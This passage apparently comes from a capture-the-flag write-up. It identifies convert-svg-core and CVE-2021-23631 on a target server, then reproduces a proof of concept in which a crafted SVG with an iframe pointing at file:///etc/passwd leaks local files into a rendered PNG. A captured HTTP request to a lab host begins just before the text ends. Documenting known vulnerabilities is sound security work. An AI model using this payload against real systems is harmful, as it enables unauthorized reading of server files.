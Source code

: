 Here I have intentionally tried to create an error so that I can know how the server is handling the SVG inputs. I have defined the `height` of the SVG image as `100%`. Now the server expects an integer value here, but got a `%` character here that creates an error message.

From the error message, we can see that the server is using `convert-svg-core` for SVG parsing.

After a google search, we can see that this library has a CVE assigned - `CVE-2021-23631`.

There is a directory traversal vulnerability in this library. Using a specially crafted SVG file, an attacker could read arbitrary files from the file system and then show the file content as a converted PNG file.

A PoC by Aritra Chakraborty →

```jsx
const { convert } = require('convert-svg-to-png');
const express = require('express');
const fileSvg = `<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>`;
const app = express();
app.get('/poc', async (req, res)=>{
  try {
    const png = await convert(fileSvg);
    res.set('Content-Type', 'image/png');
    res.send(png);
  } catch (e) {
    res.send("")
  }
})
app.listen(3000, ()=>{
  console.log('started');
});
```

Here an SVG image is being created.

```xml
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```

When we convert this to SVG using the library, the contents of `/etc/passwd` are put in a PNG file.

You can learn more about the vulnerability [here](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785).

Let us try that payload in our end.

```bash
POST /api/export HTTP/1.1
Host: 178.62.83.221:30922
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.62.83.221:30922/dashboard
Content-Type: application/json
Origin: http://178.62.83.221:30922
Content-Length: 274
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6Im5laGFsIn0=; session.sig=92Y32jSH0QWFLC5oxDr4rUuStMY

```